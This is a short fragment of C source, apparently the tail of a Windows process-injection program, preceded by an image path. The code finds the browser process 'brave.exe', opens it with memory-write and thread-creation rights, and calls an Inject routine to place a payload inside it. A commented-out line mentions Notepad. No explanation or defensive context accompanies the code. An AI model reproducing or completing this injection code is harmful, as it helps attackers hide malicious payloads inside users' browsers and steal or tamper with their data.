 ```c
    HANDLE hProc = NULL;

    pid = FindTarget(L"brave.exe");

    if (pid) {
        //printf("Notepad.exe PID = %d\n", pid);

        // try to open the target process
        hProc = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION |
            PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
            FALSE, (DWORD)pid);

        if (hProc != NULL) {
            Inject(hProc, payload, payload_len);
            CloseHandle(hProc);
        }
    }
    return 0;
}

```
